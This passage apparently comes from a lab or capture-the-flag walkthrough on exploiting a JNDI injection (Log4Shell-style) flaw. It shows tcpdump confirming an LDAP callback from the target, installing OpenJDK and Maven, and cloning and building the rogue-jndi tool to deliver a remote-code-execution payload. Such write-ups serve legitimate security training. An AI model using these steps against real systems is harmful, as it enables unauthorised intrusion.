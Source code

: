 *Let's proceed to starting ```tcpdump``` on port ```389```, which will monitor the network traffic for LDAP connections. Open up another terminal and type:*

```
sudo tcpdump -i tun0 port 389
```

*After tcpdump has been started, click the Send button.*

Here is the output from my Kali machine:

```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:06:50.822045 IP 10.129.96.149.57106 > 10.10.14.244.ldap: Flags [S], seq 1114292549, win 64240, options [mss 1340,sackOK,TS val 3096497717 ecr 0,nop,wscale 7], length 0
17:06:50.822069 IP 10.10.14.244.ldap > 10.129.96.149.57106: Flags [R.], seq 0, ack 1114292550, win 0, length 0
```

*The tcpdump output shows a connection being received on our machine. This proves that the application is indeed vulnerable since it is trying to connect back to us on the LDAP port 389.*

*We will have to install Open-JDK and Maven on our system in order to build a payload that we can send to the server and will give us Remote Code Execution on the vulnerable system.*

```
sudo apt-get install openjdk-11-jdk -y
```

And:

```
sudo apt-get install maven
```

*Open-JDK is the Java Development kit, which is used to build Java applications. Maven on the other hand is an Integrated Development Environment (IDE) that can be used to create a structured project and compile our projects into ```jar``` files. These applications will also help us run the ```rogue-jndi``` Java application, which starts a local LDAP server and allows us to receive connections back from the vulnerable server and execute malicious code.*

*Once we have installed the required packages, we now need to download and build the ```Rogue-JNDI``` Java application. Let's clone the respective repository and build the package using Maven.*

```
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```

After successful operation we should see output like this:

```
(...)
[INFO] ------------------------------------------------------------------------
[INFO] BUILD SUCCESS
[INFO] ------------------------------------------------------------------------
[INFO] Total time:  19.800 s
[INFO] Finished at: 2024-09-10T17:15:47+02:00
[INFO] ------------------------------------------------------------------------
```
